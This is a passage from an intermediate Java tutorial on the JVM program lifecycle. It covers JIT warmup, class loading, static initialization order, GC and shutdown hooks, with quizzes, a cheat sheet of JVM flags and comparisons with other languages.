// -XX:+UseG1GC -XX:MaxGCPauseMillis=200
```

**Why it's wrong:** `System.gc()` is a hint, often triggers a full GC pause (stop-the-world), and may be disabled entirely with `-XX:+DisableExplicitGC`.

### Mistake 2: Ignoring the Warmup Period

```java
// ❌ Benchmarking without warmup
long start = System.nanoTime();
result = compute(data);
long elapsed = System.nanoTime() - start; // Measures interpreted speed, not JIT speed
```

```java
// ✅ Use JMH for proper benchmarking (handles warmup automatically)
@Benchmark
public void measureCompute(Blackhole bh) {
    bh.consume(compute(data));
}
```

---

## Common Misconceptions

Things even experienced Java developers get wrong:

### Misconception 1: "JIT compilation happens only once"

**Reality:** The JVM can deoptimize and recompile code. If a method is compiled with assumptions (e.g., only one implementation of an interface exists) and a new class is loaded that breaks that assumption, the JIT deoptimizes the method and may recompile it later.

**Evidence:**
```bash
java -XX:+PrintCompilation Main
# Look for entries with "made not entrant" — this is deoptimization
```

### Misconception 2: "All classes are loaded at startup"

**Reality:** Classes are loaded lazily — only when first referenced. You can have thousands of classes on the classpath, and only the ones your code path touches get loaded.

---

## Anti-Patterns

### Anti-Pattern 1: Fat Static Initializers

```java
// ❌ Expensive work in static initializer — blocks class loading
public class AppConfig {
    static final Map<String, String> CONFIG = loadFromDatabase(); // 2-second DB call

    static Map<String, String> loadFromDatabase() {
        // Heavy I/O during class loading — slows startup, hard to test
        return new HashMap<>();
    }
}
```

**Why it's bad:** Makes startup unpredictable, impossible to test in isolation, and `ExceptionInInitializerError` is fatal.
**The refactoring:** Use lazy initialization or dependency injection:

```java
@Component
public class AppConfig {
    private final Map<String, String> config;

    public AppConfig(ConfigRepository repo) {
        this.config = repo.loadAll(); // Injected, testable, controlled lifecycle
    }
}
```

---

## Tricky Points

### Tricky Point 1: Class Initialization Order

```java
public class Main {
    static int x = 10;
    static int y = x * 2; // y = 20 ✅

    public static void main(String[] args) {
        System.out.println("x=" + x + ", y=" + y);
    }
}
```

But if you reverse the declaration order:

```java
static int y = x * 2; // y = 0 (x is 0 at this point!)
static int x = 10;
```

**What actually happens:** Static fields are initialized in source code order. Before `x` is assigned `10`, it has the default value `0`.
**Why:** JLS 12.4.2 — class initialization runs `<clinit>` in textual order.

---

## Comparison with Other Languages

How Java handles the program lifecycle compared to other languages:

| Aspect | Java | Kotlin | Go | C# (.NET) | Python |
|--------|------|--------|-----|-------|--------|
| Compilation target | JVM bytecode | JVM bytecode or native | Native binary | IL bytecode | Interpreted / .pyc |
| Runtime | JVM (HotSpot) | JVM or Kotlin/Native | Go runtime | CLR | CPython |
| JIT compilation | C1 + C2 tiered | Same (on JVM) | None (AOT only) | RyuJIT | None |
| GC algorithm | G1, ZGC, Shenandoah | Same (on JVM) | Tri-color mark & sweep | Generational | Reference counting + cycle collector |
| Startup time | ~200ms-3s | Same (on JVM) | ~10ms | ~100ms-1s | ~30ms |
| Warmup needed | Yes (JIT) | Yes (on JVM) | No (AOT) | Yes (tiered) | No |

### Key differences:

- **Java vs Go:** Go compiles to native — instant startup, no warmup. Java needs JVM startup + JIT warmup but reaches higher peak performance for complex workloads.
- **Java vs Kotlin:** On JVM, identical lifecycle. Kotlin/Native uses LLVM, bypassing JVM entirely.
- **Java vs C#:** Very similar lifecycle (bytecode → JIT). C# has `ReadyToRun` (R2R) AOT similar to Java's CDS.

---

## Test

### Multiple Choice (harder)

**1. What happens when a static initializer throws an exception?**

- A) The JVM retries the initialization
- B) The class is marked as failed and all future references throw `NoClassDefFoundError`
- C) The exception is silently swallowed
- D) The JVM restarts the ClassLoader

<details>
<summary>Answer</summary>

**B)** — The first attempt throws `ExceptionInInitializerError`. The class is permanently marked as erroneous. Any subsequent reference to that class throws `NoClassDefFoundError` (not `ExceptionInInitializerError` again).

</details>

**2. In tiered compilation, what is the default threshold for C2 (level 4) compilation?**

- A) 100 invocations
- B) 1,000 invocations
- C) ~10,000 invocations
- D) 100,000 invocations

<details>
<summary>Answer</summary>

**C)** — The default CompileThreshold for C2 is approximately 10,000 invocations. However, the actual promotion depends on both invocation count and back-edge count (loops), managed by the profiling data collected at C1 level.

</details>

### Code Analysis

**3. What is the output of this program?**

```java
public class Main {
    static int a = getValue();
    static int b = 5;

    static int getValue() {
        return b;  // What is b at this point?
    }

    public static void main(String[] args) {
        System.out.println("a=" + a + ", b=" + b);
    }
}
```

<details>
<summary>Answer</summary>

Output: `a=0, b=5`

When `getValue()` is called during `a`'s initialization, `b` has not been initialized yet — it still has the default value `0`. After `a` is set to `0`, `b` is initialized to `5`. This demonstrates that static fields are initialized in textual order.

</details>

### Debug This

**4. This application deploys fine but crashes with `UnsupportedClassVersionError` in production. Why?**

```bash
# CI builds with JDK 21
javac --release 21 Main.java

# Production runs JDK 17
java Main
```

<details>
<summary>Answer</summary>

The `.class` file compiled with `--release 21` has a class file version of 65. JDK 17 only supports up to version 61. The JVM refuses to load a class compiled for a newer version.

Fix: Either upgrade production JDK to 21 or compile with `--release 17` for backward compatibility.

</details>

**5. A Spring Boot app starts fine but after 10 hot redeployments in Tomcat, it crashes with `OutOfMemoryError: Metaspace`. What is the root cause?**

<details>
<summary>Answer</summary>

ClassLoader leak. Each redeployment creates a new ClassLoader, but the old ClassLoader cannot be GC'd because something holds a reference to a class it loaded (common culprits: JDBC drivers, ThreadLocal values, shutdown hooks, or static fields referencing webapp classes).

Fix: Deregister JDBC drivers in a `ServletContextListener.contextDestroyed()`, clear ThreadLocal values, and use tools like Eclipse MAT to find the GC root preventing ClassLoader collection.

</details>

**6. Why does this benchmark give misleading results?**

```java
public class Main {
    static long fib(int n) {
        if (n <= 1) return n;
        return fib(n - 1) + fib(n - 2);
    }

    public static void main(String[] args) {
        long start = System.nanoTime();
        long result = fib(40);
        long elapsed = System.nanoTime() - start;
        System.out.printf("fib(40)=%d in %.2f ms%n", result, elapsed / 1e6);
    }
}
```

<details>
<summary>Answer</summary>

The benchmark runs `fib(40)` only once. At this point, the method is likely still being interpreted or only C1-compiled. The JIT compiler has not had enough invocations to trigger C2 optimization. The measured time includes interpretation overhead and possibly C1→C2 transition.

Fix: Use JMH for proper benchmarking, which handles warmup iterations and JIT stabilization automatically. Or manually warm up with smaller inputs first.

</details>

---

## Tricky Questions

**1. Can a Java program run without the `main` method?**

- A) No, never
- B) Yes, using a static initializer and `System.exit(0)`
- C) Yes, but only in Java 7 and earlier
- D) Both B and C

<details>
<summary>Answer</summary>

**D)** — In Java 7 and earlier, you could execute code in a static initializer and call `System.exit(0)` to prevent the "main method not found" error:

```java
public class Main {
    static {
        System.out.println("Running without main!");
        System.exit(0);
    }
}
```

From Java 8 onwards, the JVM checks for `main` before running static initializers, so this trick no longer works.

</details>

**2. If the JIT compiler optimizes a method and then a new class is loaded that invalidates the optimization, what happens?**

- A) The JVM crashes
- B) The method continues running with the old optimization
- C) The JVM deoptimizes the method and falls back to the interpreter
- D) The JVM recompiles the method immediately

<details>
<summary>Answer</summary>

**C)** — This is called **deoptimization**. The JIT may have inlined a virtual method call assuming only one implementation exists. When a new subclass is loaded, the JVM marks the compiled code as "not entrant", forces deoptimization back to the interpreter, and may later recompile with the new class hierarchy information. You can observe this with `-XX:+PrintCompilation` (look for "made not entrant").

</details>

**3. What happens if two different ClassLoaders load the same `.class` file?**

- A) The JVM deduplicates them
- B) They are treated as two different classes — `instanceof` returns `false` across them
- C) A `LinkageError` is thrown
- D) The second load is silently ignored

<details>
<summary>Answer</summary>

**B)** — In the JVM, a class is uniquely identified by its **fully qualified name + ClassLoader**. If two classloaders load `com.example.User`, they are two distinct `Class` objects. An instance of one cannot be cast to the other. This is a common source of `ClassCastException` in complex classloader hierarchies (e.g., OSGi, Tomcat).

</details>

**4. Does `System.exit(0)` always run shutdown hooks?**

- A) Yes, always
- B) No, only `Runtime.halt()` runs them
- C) Yes, unless `Runtime.halt()` is called inside a hook (causing a deadlock)
- D) No, it depends on the exit code

<details>
<summary>Answer</summary>

**C)** — `System.exit(0)` initiates shutdown and runs all registered hooks. However, calling `Runtime.halt()` inside a shutdown hook terminates the JVM immediately, preventing other hooks from running. Also, `kill -9` (SIGKILL) kills the process without running hooks. Exit code value does not affect whether hooks run.

</details>

---

## Cheat Sheet

Quick reference for production use:

| Scenario | Command / Flag | Key consideration |
|----------|---------------|-------------------|
| See loaded classes | `java -verbose:class` | Diagnose classloading issues |
| See JIT compilation | `java -XX:+PrintCompilation` | Identify warmup behavior |
| GC logging | `-Xlog:gc*:file=gc.log:time` | Essential for production debugging |
| Force heap size | `-Xms4g -Xmx4g` | Avoid resize pauses |
| Heap dump on OOM | `-XX:+HeapDumpOnOutOfMemoryError` | Auto-capture for post-mortem analysis |
| CDS for fast startup | `java -Xshare:dump` then `-Xshare:on` | Reduce classloading overhead |
| Container-aware | `-XX:MaxRAMPercentage=75` | Let JVM adapt to Docker limits |

### Decision Matrix

| If you need... | Use... | Because... |
|----------------|--------|------------|
| Fast startup (< 100ms) | GraalVM native-image or CDS | Eliminates JVM warmup |
| Low latency after warmup | Warmup phase + ZGC | JIT-optimized + minimal GC pauses |
| Debug classloading | `-verbose:class` | Shows every class load event |
| Debug memory | `-XX:+HeapDumpOnOutOfMemoryError` | Captures heap at failure point |

---

## Self-Assessment Checklist

### I can explain:
- [ ] Why Java uses a two-step compilation model (source → bytecode → native)
- [ ] How tiered compilation works (interpreter → C1 → C2)
- [ ] The ClassLoader delegation model and why it matters
- [ ] How GC generations work (Young → Old → Metaspace)
- [ ] How shutdown hooks work and their limitations

### I can do:
- [ ] Use `-verbose:class` and `-XX:+PrintCompilation` for diagnostics
- [ ] Set JVM flags for production (`-Xms`, `-Xmx`, GC selection)
- [ ] Debug `ClassNotFoundException` vs `NoClassDefFoundError`
- [ ] Implement a warmup strategy for latency-sensitive services
- [ ] Use JMH for proper benchmarking (not `System.nanoTime()`)

---

## Summary

- The Java lifecycle includes tiered compilation (interpreter → C1 → C2), each level providing more optimization at the cost of compilation time
- The ClassLoader hierarchy (Bootstrap → Platform → Application) uses parent-first delegation to ensure core classes cannot be overridden
- GC divides the heap into Young and Old generations for efficient collection — understanding this prevents OOM issues in containerized deployments
- Shutdown hooks provide graceful termination but are not guaranteed under SIGKILL
- JVM warmup is a real concern — latency-sensitive services must warm up critical paths before accepting traffic

**Key difference from Junior:** Understanding *why* the lifecycle exists this way and *when* each component matters in production.
**Next step:** Explore JVM internals at the Senior level — GC tuning, JIT deoptimization, and classloader architecture decisions.

---

## What You Can Build

### Production systems:
- **Spring Boot microservice with lifecycle hooks:** Uses `@PostConstruct`, `@PreDestroy`, and `ApplicationReadyEvent` to manage initialization and shutdown
- **Docker-optimized Java service:** Uses CDS, proper JVM flags, and container-aware memory settings for efficient container deployment

### Learning path:



---

## Further Reading

- **Official docs:** [JVM Specification](https://docs.oracle.com/javase/specs/jvms/se21/html/) — chapters on class loading and execution engine
- **Book:** Effective Java (Bloch), 3rd edition — Item 7: Eliminate obsolete object references (memory leaks)
- **Conference talk:** [Understanding Java Performance](https://www.youtube.com/results?search_query=understanding+java+performance+jit) — search for talks by Aleksey Shipilev and Chris Newland
- **Blog:** [Netflix Tech Blog - Java at Scale](https://netflixtechblog.com/) — real-world JVM tuning stories

---

## Related Topics

- **[Basic Syntax](../01-basic-syntax/)** — the syntax that `javac` enforces at compile time
- **[Data Types](../03-data-types/)** — how the JVM represents types in bytecode and memory
- **[Variables and Scopes](../04-variables-and-scopes/)** — how variables map to stack frames during execution
- **[Basics of OOP](../11-basics-of-oop/)** — how class hierarchies affect ClassLoader behavior and method dispatch

---

## Diagrams & Visual Aids

### Tiered Compilation State Machine



### JVM Memory Layout (Detailed)

```
+-------------------------------------------+
|              JVM Runtime Memory            |
|-------------------------------------------|
|  Metaspace (off-heap)                      |
|   Class metadata, constant pools, methods  |
|-------------------------------------------|
|  Heap (GC managed)                         |
|   +--------+----------+---------+          |
|   | Eden   | Survivor | Old Gen |          |
|   | (new)  | S0 | S1  | (long) |          |
|   +--------+----------+---------+          |
|-------------------------------------------|
|  Stack (per thread)                        |
|   Frame → Frame → Frame                   |
|   [locals | operand stack | return addr]   |
|-------------------------------------------|
|  Code Cache                                |
|   JIT-compiled native code (C1 + C2)      |
|-------------------------------------------|
|  Direct Memory (NIO ByteBuffer)            |
+-------------------------------------------+
```

### Application Lifecycle Sequence


